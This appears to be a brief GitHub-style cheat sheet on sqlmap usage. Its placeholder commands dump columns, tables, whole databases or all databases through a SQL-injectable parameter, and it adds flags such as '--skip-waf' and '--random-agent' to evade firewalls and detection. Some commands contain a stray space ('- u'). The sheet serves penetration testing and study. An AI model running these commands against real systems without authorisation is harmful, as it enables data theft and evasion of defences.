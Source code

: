 						
<h2>SQLmap Usage</h2>

 **To Fetch Only Column's Data**                        
 ```
  sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump
```
 **To Fetch Only All Column & Its Data**          
 ```
sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump
```

 **To Fetch Entire Database's Data** 		     
 ```
sqlmap - u "url?prm=" -p prm -D dbname  --dump
```

 **To Fetch All Databases**
 `sqlmap - u "url?prm=" -p prm --dbs  --dump` 
 or use --dump-all instead of --dump to fetch all databases's all tables and columns  


<h5>Extra Parameter to Optimise SQLmap's Performance</h5>
 **Parameters**      **--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o **
 **Optimised Url**    **sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o**

```diff
+ this text is highlighted in green
- this text is highlighted in red
```
